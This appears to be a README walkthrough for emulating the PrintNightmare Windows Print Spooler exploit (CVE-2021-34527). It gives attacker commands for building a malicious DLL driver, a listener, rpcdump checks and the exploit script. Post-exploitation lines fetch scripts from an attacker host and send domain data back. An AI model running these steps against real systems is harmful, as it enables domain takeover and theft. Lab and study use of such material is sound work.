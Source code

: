 # PrintNightmare
 Windows Print Spooler Vulnerability (CVE2021-34527)

Pre-exploitation

Attacker
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443
   https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/
3. Run SMB server service and modify the config file
4. Place the faked printer driver to the SMB path
5. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
6. Exploit the vulnerability to the target machine
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>

Target machine
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the 
   Powershell
   PS C:\Users\Administrator> get-service spooler
   PS C:\Users\Administrator> start-service spooler

**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Ref: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file

Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

'''console
<Invoke-WebRequest -Uri http://192.168.2.85:8000/discovery.bat -o discovery.bat>
<Invoke-WebRequest -Uri http://192.168.2.85:8000/export.bat -o export.bat>
'''

